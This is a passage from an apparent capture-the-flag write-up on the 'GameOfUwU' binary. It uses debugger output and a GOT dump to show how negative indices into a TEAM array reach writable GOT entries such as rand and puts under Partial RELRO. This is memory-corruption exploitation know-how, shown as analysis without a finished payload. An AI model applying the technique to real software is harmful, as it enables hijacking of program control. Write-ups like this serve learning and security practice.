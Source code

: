 For example, if we enter `-1` as our index option, we get access a thing called `data_start` at the address `0x55555555a0c0` which is `0xffffffffffffffe0` away from `TEAM[0]` 

```
0x55555555543a <edit_nickname+154>    mov    rdx, rax                        RDX => 0xffffffffffffffe0
   0x55555555543d <edit_nickname+157>    lea    rax, [rip + 0x4c7c]             RAX => 0x55555555a0c0 (TEAM) ◂— 'FirebUwU'
   0x555555555444 <edit_nickname+164>    add    rax, rdx                        RAX => 0x55555555a0a0 (data_start) (0x55555555a0c0 + 0xffffffffffffffe0)
   0x555555555447 <edit_nickname+167>    mov    rsi, rax                        RSI => 0x55555555a0a0 (data_start) ◂— 0
```

Moreover, since each slots in the array `TEAM[6][16]` occupies 16 bytes, each increment or decrement in our index would lead to a memory address 16 bytes higher or lower than our previous slot.

For example:
`-1` : a0a0 ---> `data_start`

`-2` : a090 ---> `rand()`

By the way, we are now at `rand()` already!
```
RSI => 0x55555555a090 (rand@got[plt]) —▸ 0x7ffff7df6430 (rand) ◂— sub rsp, 8
```
Which means we are now at the of GOT entries to the libc functions 

```
Filtering out read-only entries (display them with -r or --show-readonly)

State of the GOT of /home/kali/Desktop/CTF/GameOfUwU/GameOfUwU_patched:
GOT protection: Partial RELRO | Found 16 GOT entries passing the filter
[0x556ad1d1c018] strcpy@GLIBC_2.2.5 -> 0x556ad1d17030 ◂— endbr64 
[0x556ad1d1c020] puts@GLIBC_2.2.5 -> 0x7f718ce80e50 ◂— endbr64 
[0x556ad1d1c028] system@GLIBC_2.2.5 -> 0x7f718ce50d70 ◂— endbr64 
[0x556ad1d1c030] printf@GLIBC_2.2.5 -> 0x556ad1d17060 ◂— endbr64 
[0x556ad1d1c038] strcspn@GLIBC_2.2.5 -> 0x556ad1d17070 ◂— endbr64 
[0x556ad1d1c040] srand@GLIBC_2.2.5 -> 0x7f718ce460a0 ◂— endbr64 
[0x556ad1d1c048] fgets@GLIBC_2.2.5 -> 0x556ad1d17090 ◂— endbr64 
[0x556ad1d1c050] strcmp@GLIBC_2.2.5 -> 0x7f718cf98940 ◂— endbr64 
[0x556ad1d1c058] getchar@GLIBC_2.2.5 -> 0x7f718ce87ae0 ◂— endbr64 
[0x556ad1d1c060] time@GLIBC_2.2.5 -> 0x7f718d136d90 (time) ◂— endbr64 
[0x556ad1d1c068] setvbuf@GLIBC_2.2.5 -> 0x7f718ce815f0 ◂— endbr64 
[0x556ad1d1c070] __isoc99_scanf@GLIBC_2.7 -> 0x556ad1d170e0 ◂— endbr64 
[0x556ad1d1c078] sprintf@GLIBC_2.2.5 -> 0x556ad1d170f0 ◂— endbr64 
[0x556ad1d1c080] exit@GLIBC_2.2.5 -> 0x556ad1d17100 ◂— endbr64 
[0x556ad1d1c088] sleep@GLIBC_2.2.5 -> 0x556ad1d17110 ◂— endbr64 
[0x556ad1d1c090] rand@GLIBC_2.2.5 -> 0x556ad1d17120 ◂— endbr64 
```
We go from `0x556ad1d1c090` using `-2` the highest address in this pack of functions to the lowest address `0x556ad1d1c018` which is `strcpy`. However `strcpy` cannot be accessed as we jump 16 bytes each time, and overwriting 8 bytes address with more than 8 bytes of content would just **overflow** to the higher address and not the lower one. 
The last libc function we can access via indexing, would be `puts` with index `-9`
